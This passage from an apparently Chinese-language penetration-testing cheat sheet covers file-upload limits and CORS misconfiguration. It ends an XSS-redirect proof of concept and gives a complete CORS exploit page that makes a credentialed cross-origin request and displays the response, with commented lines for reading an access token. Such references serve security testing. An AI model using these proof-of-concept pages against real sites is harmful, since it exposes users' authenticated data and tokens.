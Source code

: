 ```
  req.send();
}

function executeXSS() {
  window.location.assign(host+'<URI with XSS>'+alert_payload);
}

submitRequest();
    </script>
  </body>
</html>
```

## 10.文件上传漏洞

在OS X上创建测试10g文件（对于测试文件上载限制很有用）：

```
mkfile -n 10g temp_10GB_file
```

### 无限制的文件上传

资源:

```
http://nileshkumar83.blogspot.com/2017/01/file-upload-through-null-byte-injection.html
```

一些备忘录:<https://github.com/jhaddix/tbhm>

### CORS配置错误

用于测试的POC:

```
<!DOCTYPE html>
<html>
  <body>
    <center>
      <h2>CORS POC Exploit</h2>

      <div id="demo">
        <button type="button" onclick="cors()">Exploit</button>
      </div>

      <script>
function cors() {
  var req = new XMLHttpRequest();
  req.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("demo").innerHTML = this.responseText;
      // If you want to print something out after it finishes:
      //alert(req.getAllResponseHeaders());
      //alert(localStorage.access_token);
    }
  };
  // If you need to set a header (you probably won't):
  // req.setRequestHeader("header name", "value");
  req.open("GET", "<site>", true);
  req.withCredentials = true;
  req.send();
}
      </script>
  </body>
</html>
```